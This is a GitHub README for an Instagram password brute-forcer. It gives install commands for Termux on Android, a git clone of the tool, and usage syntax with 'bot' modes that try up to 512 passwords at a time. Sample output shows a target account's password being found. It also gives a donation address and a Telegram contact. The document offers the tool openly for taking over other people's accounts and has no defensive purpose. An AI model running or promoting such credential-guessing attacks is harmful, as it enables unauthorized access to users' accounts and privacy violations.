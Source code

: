 # Instagram
Hi, this is a Instagram brute-forcer<br>
# Donate
<b>Who does not mind a penny on the development of the project:</b><br>
<b>Bitcoin: 1LBjGEQ16jK23cVqtkFg5fm91poKVVAP5b<br>
<br>
There will be questions - Telegram: <a href="https://t.me/Mrxanon"> @Mrxanon</a><br>
# How to install?
<b>Follow the instructions...</b><br>
<b>If you have Android - download <a href="https://play.google.com/store/apps/details?id=com.termux&hl=ru">Termux from Google Play</a> and open it and write the commands below:<br>
• <code>apt update</code><br>
• <code>apt upgrade -y</code><br>
• <code>apt install python -y</code><br>
• <code>apt install git -y</code><br>
• <code>git clone https://github.com/Mr-X-01/Insta</code><br>
• <code>cd Instagram</code><br>
• <code>pip3 install -r requirements.txt</code><br>
# How to start?
• <code>python3 instagram.py 'username' 'wordlist' -m 'mode'</code><br>
# How to generate passwords?
• <code>python Passgen.py</code><br>
# How to unzip?
• <code>unzip 'file'</code><br>

### Help

```
python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: Mr.x
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Mr.x
[-] Password: mr090
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Mr.x
[+] Password: mr090
```
